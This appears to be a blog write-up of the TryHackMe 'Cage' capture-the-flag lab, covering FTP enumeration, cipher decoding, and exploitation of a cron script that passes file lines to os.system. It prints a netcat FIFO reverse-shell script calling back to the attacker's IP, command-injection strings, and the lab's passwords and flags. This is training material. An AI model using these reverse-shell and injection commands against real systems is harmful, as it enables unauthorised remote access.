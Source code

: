 ```yaml
---
layout: post
title:  "THM - Cage"
date:   2020-06-30 18:00:00 +1000
category: hacking
---
```


## Introduction
*Help Cage bring back his acting career and investigate the nefarious goings on of his agent!*
Hmmmm. Sounds cheesy.

## Ports
nmap says we've got 21 (FTP), 22 (SSH) and 80 (HTTP) only.

## FTP
FTP allows anonymous login and there is one file, called dad_tasks. Downloading it and opening it we can see some sort of encoded text:
*UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds*

This is base64, and decodes to:
*Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl*

Which is some sort of cipher, that looks like a rotation or Vignere. Spoiler alert - it's not a simple rotation. Presumably Sfw is One, Faz is Two, Eljwx is Three, Rsfv is Four and Yejr is Five....

This [website](https://www.boxentriq.com/code-breaking/vigenere-cipher) provides auto-solving of ciphers, and sure enough it's vignere with the key **namelesstwo**:

*dad st asks the rage the cage the man the legend 
one revamp the website 
two put more quotes in script 
three buy bee pesticide 
four help him with acting lessons 
five teach dad what information security is
in case i forget....
Mydadisghostrideraintthatcoolnocausehesonfirejokes*

The *last* part is the FTP *and* SSH password for 'weston'

## Other Files
Logging in, we can find a file called *must_practice_corrupt_file.mp3* in */var/www/html/auditions*, which we could also have found through dirbusting...and, what's more, it contains audio steganography which we can access via Audacity and it gives the password...**namelesstwo** which we already had. So, that's not helpful.

We also find a few files in */opt/.dads_files/*
There is a file called *.quotes* and a python script that broadcasts lines from .quotes; this apparently runs on a cron job. We can't edit the python script but we can *cat* it - the contents are:

>weston@national-treasure:/opt/.dads_scripts/.files$ cat ../spread_the_quotes.py 
#!/usr/bin/env python
#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random
lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

So essentially it's choosing a random line from the .quotes file and broadcasting it via the 'wall' command. We can edit the .quotes file, so that's the way forward.

We don't have nano, but can remove the .quotes file with rm and then create a new one with echo or printf and appending to a new .quotes. Theoretically, and with testing, we should be able to use a command like 
>echo "whatever ;pwd" >> .quotes

or 
>echo "whatever &&pwd" >> .quotes

But these don't work, because the command doesn't actually complete when the script runs. What we can do instead is trigger a reverse shell:

>cat << EOF > /tmp/shell
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.10.123 1234 >/tmp/f
EOF
chmod +x /tmp/shell
printf 'whatever; /tmp/shell\n' > /opt/.dads_scripts/.files/.quotes

## User Cage
This gets us a shell as cage:
>listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.236.100] 52624
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
cage@national-treasure:~$ cd /home/cage

And we can get the user flag:
>cage@national-treasure:~$ cat Super_Duper_Checklist
cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}

## Root
Cage isn't root, but his email backups give it away; Sean has root privileges. We're also given **haiinspsyanileph** and the word **face** as a hint. This is another vignere cipher with face as the key, and it decodes to: **cageisnotalegend**.

Once we know that, we can *su* as sean and get the root flag.

